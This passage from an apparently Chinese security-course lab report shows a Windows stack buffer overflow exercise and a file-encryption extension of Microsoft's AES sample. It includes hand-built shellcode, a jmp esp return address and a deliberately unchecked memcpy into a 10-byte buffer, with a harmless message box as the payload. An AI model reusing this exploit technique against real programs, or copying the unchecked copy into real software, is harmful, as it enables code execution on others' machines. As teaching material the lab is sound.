		xor ecx,ecx		// 清空ecx寄存器

		// MessageboxA显示内容 ^o^..堆栈成功溢出!
		// 利用UltraEdit等十六进制编辑工具获取显示内容的十六进制数据格式
		mov byte ptr [ebp-14h],5Eh
		mov byte ptr [ebp-13h],6Fh
		mov byte ptr [ebp-12h],5Eh
		mov byte ptr [ebp-11h],2Eh
		mov byte ptr [ebp-10h],02Eh
		mov byte ptr [ebp-0Fh],0B6h
		mov byte ptr [ebp-0Eh],0D1h
		mov byte ptr [ebp-0Dh],0D5h
		mov byte ptr [ebp-0Ch],0BBh
		mov byte ptr [ebp-0Bh],0B3h
		mov byte ptr [ebp-0Ah],0C9h
		mov byte ptr [ebp-09h],0B9h
		mov byte ptr [ebp-08h],0A6h
		mov byte ptr [ebp-07h],0D2h
		mov byte ptr [ebp-06h],0E7h
		mov byte ptr [ebp-05h],0B3h
		mov byte ptr [ebp-04h],0F6h
		mov byte ptr [ebp-03h],021h
		mov byte ptr [ebp-02h],cl	// 字符串'0'结尾

		// 在调用MessageBoxA前，将其所需参数准确入栈
		// 参数入堆栈的次序是从后向前(最后参数先入栈，第一参数最后入栈)
		push ecx			// 第四参数(对话框风格)　0　入栈
		lea eax, [ebp-0Fh]	
		push eax			// 第三参数(对话框标题)　堆栈成功溢出! 入栈
		lea eax, [ebp-14h]
		push eax			// 第二参数(显示文本)　^o^..堆栈成功溢出!　入堆栈
		push ecx			// 第一参数(窗体句柄)　0 入栈

		// 调用MessageBoxA函数并执行
		// 请在以下代码xxxxxxxx处填写MessageBoxA函数的绝对内存地址
		mov dword ptr [ebp-20h], 77E4D8DEh
		// 调用MessageBoxA
		call dword ptr [ebp-20h]	

		// 调用ExitProcess程序退出
		// 请在以下代码yyyyyyyy处填写ExitProcess函数的绝对内存地址
		mov dword ptr [ebp-30h],7C813039h
		// 调用ExitProcess
		call dword ptr [ebp-30h]	

		// 恢复堆栈原始状态(此处不会被执行)
		mov esp,ebp		// 恢复堆栈栈顶指针
		pop ecx			// 恢复ecx寄存器指针
		pop ebp			// 恢复堆栈帧基址指针
	}

	return 0;
}


int main()
{  
    // 使用程序获取地址内容，使用时注意应只保留汇编部分
	int i = 0;
    unsigned char pData = (unsigned char )asm;
    //int nLength = 177; 
	int nLength = (unsigned long)main - (unsigned long)asm;
    for (i = 0; i < nLength; i++)
    {
        printf("0x%02x, ", pData[i]);
    }
}
```

#### 缓冲区溢出程序

```cpp
#include <stdio.h>
#include <windows.h>

/*
*	overflow.c 功能：缓冲区溢出程序执行体
*	作者：jlcss
*	开发环境：Microsoft Visual C++ 6.0
*/


//	加载user32.dll
int Load_user32_library()
{
	HINSTANCE h; 
	char dllname[12];
	strcpy(dllname, "user32");

	h = GetModuleHandleA(dllname); 
	if(h == NULL) 
	{ 
		h = LoadLibraryA(dllname); 
		if(h == NULL) 
		{ 
			printf("加载user32失败"); 
			return -1; 
		} 
	} 

	return 0;
}

//	溢出函数
void overflow(char * pShellcode, unsigned long dwLen)
{
	char buffer[10];
	memcpy( buffer, pShellcode, dwLen);
}

int main(int argc, char ** argv)
{
	// 定义shellcode指令集，用该指令集对部分堆栈空间进行填充，并实现指令跳转及弹出对话框功能的实现
	/*长前导码　unsigned char shellcode[] = {0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37, 0x38, 0x39, 
									   0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47, 0x48, 0x49, 0x50,
									   0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57, 0x58, 0x59, 0x60, 0x61,
									   0x62, 0x63, 0x64, 0x65, 0x66, 0x67, 0x68, 0x69,0x70, 0x71, 0x72
	};
	*/	

	// １.请根据实际调试结果从长前导码中截取片段，作为shellcode前导码

	// ２.查找包含有jmp esp指令的内存地址,并将其追加到shellcode尾。注意追加顺序(先低地址字节)

	// ３.CreateShellcode反汇编获得shellcode执行体，并将其追加至shellcode尾
	unsigned char shellcode[300] = {0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37, 
								0x38, 0x39, 0x40, 0x41, 0x42, 0x43, 0x44, 0x45,
									   0xda,0x24,0xe4,0x77,

0x55, 0x8b, 0xec, 0x55, 0x51, 0x8b, 0xec, 0x83, 0xec, 0x54, 0x33, 0xc9, 0xc6, 0x45, 0xec, 0x5e, 0xc6, 0x45, 0xed, 0x6f, 0xc6, 0x45, 0xee, 0x5e, 0xc6, 0x45, 0xef
, 0x2e, 0xc6, 0x45, 0xf0, 0x2e, 0xc6, 0x45, 0xf1, 0xb6, 0xc6, 0x45, 0xf2, 0xd1,
0xc6, 0x45, 0xf3, 0xd5, 0xc6, 0x45, 0xf4, 0xbb, 0xc6, 0x45, 0xf5, 0xb3, 0xc6, 0x45, 0xf6, 0xc9, 0xc6, 0x45, 0xf7, 0xb9, 0xc6, 0x45, 0xf8, 0xa6, 0xc6, 0x45, 0xf9
, 0xd2, 0xc6, 0x45, 0xfa, 0xe7, 0xc6, 0x45, 0xfb, 0xb3, 0xc6, 0x45, 0xfc, 0xf6,
0xc6, 0x45, 0xfd, 0x21, 0x88, 0x4d, 0xfe, 0x51, 0x8d, 0x45, 0xf1, 0x50, 0x8d, 0x45, 0xec, 0x50, 0x51, 0xc7, 0x45, 0xe0, 0xde, 0xd8, 0xe4, 0x77, 0xff, 0x55, 0xe0
, 0xc7, 0x45, 0xd0, 0x39, 0x30, 0x81, 0x7c, 0xff, 0x55, 0xd0, 0x8b, 0xe5, 0x59,
0x5d, 0x33, 0xc0, 0x5d, 0xc3, 0x90, 0x90, 0x90

	};

	if( Load_user32_library() == -1 )
		return 0;

	overflow((char*)shellcode, (unsigned int)strlen(shellcode));

	getchar();
	return 0;
}
```




### 2密码学

代码仓库：https://github.com/microsoft/Windows-classic-samples/tree/main/Samples/Security/CipherEncryptionDecryption

源代码：https://github.com/microsoft/Windows-classic-samples/blob/main/Samples/Security/CipherEncryptionDecryption/cpp/CipherEncryptionDecryption.cpp

#### 直接添加

通过在加密库的代码中添加我们想要的部分，成功实现了加密与解密

```cpp
//-----------------------------------------------------------------------------
//
//    wmain
//
//-----------------------------------------------------------------------------
DWORD
__cdecl
wmain(
    _In_                int     argc,
    _In_reads_(argc)   LPWSTR  argv[]
    )
{
 ......

    //
    // Encrypt plain text
    //
    char buf[1000];

    FILE* f = fopen("plain.txt", "r+");

    for (int i = 0; fgets(buf, 1000, f); i++)
    {
        PlainTextLength = strlen(buf);
        buf[PlainTextLength] = '\0';
        printf("%s %d \n", buf, PlainTextLength);
    }
    PBYTE PlainTextArray = (unsigned char*)buf;

    printf("plainText %s: ", PlainTextArray);


    Status = EncryptData(
                                        AesAlgHandle,
                                        Aes128Key,
                                        Aes128KeyLength,
                                        InitVector,
                                        InitVectorLength,
                                        (PBYTE)BCRYPT_CHAIN_MODE_CBC,
                                        sizeof (BCRYPT_CHAIN_MODE_CBC),
                                        (PBYTE)PlainTextArray,
                                        sizeof (PlainTextArray),
                                        &CipherText,
                                        &CipherTextLength);

    if( !NT_SUCCESS(Status) )
    {
        ReportError(Status);
        goto cleanup;
    }

    
    printf("CiperText :");
    FILE* out = fopen("out.txt", "w+");
    for (int i = 0; i < CipherTextLength; i++) {
        printf("0x%02x, ", CipherText[i]);
        fputc(CipherText[i], out);
    }
    printf("\n");


    //
    // Decrypt Cipher text
    //


    Status = DecryptData(
                                        AesAlgHandle,
                                        Aes128Key,
                                        Aes128KeyLength,
                                        InitVector,
                                        InitVectorLength,
                                        (PBYTE)BCRYPT_CHAIN_MODE_CBC,
                                        sizeof (BCRYPT_CHAIN_MODE_CBC),
                                        CipherText,
                                        CipherTextLength,
                                        &PlainText,
                                        &PlainTextLength);


    if( !NT_SUCCESS(Status) )
    {
        ReportError(Status);
        goto cleanup;
    }
    printf("\n");
    printf("DeCiperText :");
    FILE* out2 = fopen("deout.txt", "w+");
    // 注意，其算出的密文长度是 ResultLength 而非 PlainTextLength
    for (int i = 0; i < ResultLength; i++) {
        printf("0x%02x, ", PlainText[i]);
        fputc(PlainText[i], out2);
    }
    printf("\n");

    //
    // Optional : Check if the original plaintext and the plaintext obtained after decrypt are the same 
    //

    if( 0 != (memcmp(PlainText, PlainTextArray, sizeof (PlainTextArray))) )
    {
        Status = STATUS_UNSUCCESSFUL;
        ReportError(Status);
        goto cleanup;
    }

    Status = STATUS_SUCCESS;
    wprintf(L"Success : Plaintext has been encrypted, ciphertext has been decrypted with AES-128 bit key\n");

......
    
}
```



#### 函数添加

但这种方式未免有些混乱，在成体系化的CipherEncryptionDecryption.cpp中显得有些不太合群，我们采用函数的方式

获取文件长度的函数

```cpp
// line 408
int GetFileLength(FILE *pf, DWORD *Length)
{
    int ret = 0;

    fseek(pf, 0, SEEK_END);
    *Length = ftell(pf);
    fseek(pf, 0, SEEK_SET);

    return ret;
}

```

明文存放在plain.txt中，加密得到的密文输出到cipher.txt中，根据密文解密得到的明文存放在getPlain.txt中。代码如下：

```cpp
// line 450
    FILE *fin, *fout, *fout2;
    fin = fopen("plain.txt", "r");
    if (fin == NULL)
    {
        printf("in File cannot open! ");
        exit(0);
    }
    fout = fopen("cipher.txt", "w");
    if (fout == NULL)
    {
        printf("out File cannot open! ");
        exit(0);
    }
    fout2 = fopen("getPlain.txt", "w");
    if (fout2 == NULL)
    {
        printf("out2 File cannot open! ");
        exit(0);
    }
    DWORD fileLen = 0;
    GetFileLength(fin, &fileLen);
    PlainTextArray = (BYTE *)malloc(fileLen);
    fread((void *)PlainTextArray, 1, fileLen, fin);

```

加密后，将密文输出到文件（注意明文长度是`fileLen`而不是`sizeof(PlainTextArray)`）：



```cpp
Status = EncryptData(
                                        AesAlgHandle,
                                        Aes128Key,
                                        Aes128KeyLength,
                                        InitVector,
                                        InitVectorLength,
                                        (PBYTE)BCRYPT_CHAIN_MODE_CBC,
                                        sizeof (BCRYPT_CHAIN_MODE_CBC),
                                        (PBYTE)PlainTextArray,
                                        fileLen,
                                        &CipherText,
                                        &CipherTextLength);

fwrite(CipherText, 1, CipherTextLength,fout);
```

解密，并将密文输出到文件：

```cpp
    Status = DecryptData(
                                        AesAlgHandle,
                                        Aes128Key,
                                        Aes128KeyLength,
                                        InitVector,
                                        InitVectorLength,
                                        (PBYTE)BCRYPT_CHAIN_MODE_CBC,
                                        sizeof (BCRYPT_CHAIN_MODE_CBC),
                                        CipherText,
                                        CipherTextLength,
                                        &PlainText,
                                        &PlainTextLength);
                                        
    fwrite(PlainText, fileLen, 1, fout2);
    fclose(fin);
    fclose(fout);
    fclose(fout2);

```

## 小结或讨论

（1）如何应对缓冲区溢出漏洞攻击？ 

- 编写代码时注意检查数组边界，本实验的漏洞便是`memcpy`引发的，如果提前验证长度，便不会引发漏洞。
- 通过静态检测、动态测试的方式，在软件发布前，及时地发现软件中的缓冲区溢出漏洞，以便于对源代码进行人工修改。

（2）图 2-2 中的代码在 Release 模式下编译方能得到正确的 nLength，而 Debug 模式下的结果往往不正确，思考原因是什么？

- 在Debug中，您的程序使用完整的符号调试信息进行编译，并且没有优化。优化使调试复杂化，因为源代码和生成的指令之间的关系更加复杂。因此在其中会有一些多于的指令。多于的信息。

- Release 没有符号调试信息，并且已完全优化。 是精简化的程序。

（3）使用加密库有哪些优点？

- 能够保证加密算法不会出问题，加快编写进程，减少了自己编写的麻烦。
- 模块化编程，已经经过测试的加密库稳定性、健壮性都有保障